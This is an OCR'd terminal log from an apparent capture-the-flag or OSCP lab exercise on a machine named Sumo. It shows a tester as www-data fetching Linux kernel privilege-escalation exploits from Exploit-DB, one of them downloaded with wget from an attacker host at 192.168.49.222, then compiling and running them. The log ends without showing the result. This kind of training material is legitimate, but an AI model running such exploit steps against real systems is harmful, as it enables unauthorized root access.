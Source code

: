 100%[======================================================================================================>] 3,551       --.-K/s   in 0s      

2021-11-04 11:06:15 (16.4 MB/s) - `34134.c' saved [3551/3551]


www-data@ubuntu:/tmp$ gcc 34134.c -o 34134   
34134.c: In function 'main':
34134.c:62:2: warning: passing argument 1 of 'mmap' makes pointer from integer without a cast [enabled by default]
/usr/include/x86_64-linux-gnu/sys/mman.h:58:14: note: expected 'void *' but argument is of type 'unsigned int'
34134.c:63:2: warning: comparison between pointer and integer [enabled by default]
34134.c:64:2: warning: incompatible implicit declaration of built-in function 'memset' [enabled by default]
34134.c:67:9: warning: incompatible implicit declaration of built-in function 'memcpy' [enabled by default]
34134.c:74:3: warning: incompatible implicit declaration of built-in function 'exit' [enabled by default]
34134.c:80:4: warning: incompatible implicit declaration of built-in function 'exit' [enabled by default]
www-data@ubuntu:/tmp$ ls
34134  34134.c	40839  40839.c	passwd.bak  vmware-root
www-data@ubuntu:/tmp$ ./34134 
IDT addr = 0xffffffff81dd7000




root@kali:/OSCPv3/offsec_pg/Sumo# searchsploit -m 33589
  Exploit: Linux Kernel 3.2.0-23/3.5.0-23 (Ubuntu 12.04/12.04.1/12.04.2 x64) - 'perf_swevent_init' Local Privilege Escalation (3)
      URL: https://www.exploit-db.com/exploits/33589
     Path: /usr/share/exploitdb/exploits/linux_x86-64/local/33589.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /OSCPv3/offsec_pg/Sumo/33589.c


www-data@ubuntu:/tmp$ wget http://192.168.49.222:9090/33589.c
--2021-11-04 11:10:44--  http://192.168.49.222:9090/33589.c
Connecting to 192.168.49.222:9090... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3664 (3.6K) [text/plain]
Saving to: `33589.c'

100%[======================================================================================================>] 3,664       --.-K/s   in 0s      

2021-11-04 11:10:44 (15.1 MB/s) - `33589.c' saved [3664/3664]


www-data@ubuntu:/tmp$ gcc 33589.c -O2 -o 33589   
gcc: error trying to exec 'cc1': execvp: No such file or directory
www-data@ubuntu:/tmp$ locate cc1
/etc/ssl/certs/6fcc125d.0
/usr/lib/gcc/x86_64-linux-gnu/4.6/cc1
/usr/share/doc/libgcc1
/usr/share/lintian/overrides/libgcc1
/var/lib/dpkg/info/libgcc1:amd64.list
/var/lib/dpkg/info/libgcc1:amd64.md5sums
/var/lib/dpkg/info/libgcc1:amd64.postinst
/var/lib/dpkg/info/libgcc1:amd64.postrm
/var/lib/dpkg/info/libgcc1:amd64.shlibs
/var/lib/dpkg/info/libgcc1:amd64.symbols
www-data@ubuntu:/tmp$ PATH=${PATH}:/usr/lib/gcc/x86_64-linux-gnu/4.6    
www-data@ubuntu:/tmp$ export PATH
www-data@ubuntu:/tmp$ gcc 33589.c -O2 -o 33589
www-data@ubuntu:/tmp$ ./33589 0


